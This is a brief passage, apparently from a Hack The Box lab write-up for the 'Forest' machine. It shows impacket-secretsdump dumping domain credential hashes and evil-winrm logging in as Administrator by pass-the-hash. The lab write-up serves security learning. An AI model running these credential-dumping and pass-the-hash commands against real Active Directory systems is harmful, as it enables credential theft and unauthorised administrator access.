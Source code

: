 ```
impacket-secretsdump htb.local/blackninja:"pass123@"@10.10.10.161
```

![](/assets/img/HTB/easy/Forest/secretdump.png)
- let try login as Administrator with pass the hash

```
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

![](/assets/img/HTB/easy/Forest/root.png)